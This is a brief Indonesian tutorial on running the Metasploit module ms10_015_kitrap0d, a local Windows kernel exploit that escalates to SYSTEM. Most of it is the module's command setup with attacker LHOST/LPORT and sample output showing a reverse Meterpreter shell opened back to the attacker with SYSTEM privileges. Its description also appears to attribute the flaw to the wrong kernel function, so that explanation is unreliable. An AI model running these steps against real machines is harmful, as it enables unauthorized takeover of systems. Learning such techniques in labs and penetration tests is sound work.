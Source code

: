 # ms10_015_kitrap0d

Modul `ms10_015_kitrap0d` di Metasploit adalah modul `exploit local` untuk sistem Windows yang memanfaatkan kerentanan dalam pengelolaan privilege di kernel Windows (`MS10-015`), dikenal dengan nama `KiTrap0D`. Kerentanan ini memungkinkan user biasa untuk mengeskalasi hak akses ke level `SYSTEM` dengan menjalankan kode berizin tinggi melalui eksploitasi fungsi `NtUserMessageCall`.

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms10_015_kitrap0d
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 1936 launched.
[*] Reflectively injecting the DLL into 1936...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 192.168.1.54
[*] Meterpreter session 25 opened (192.168.1.11:4444 -> 192.168.1.54:1057) at 2025-05-17 08:10:04 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
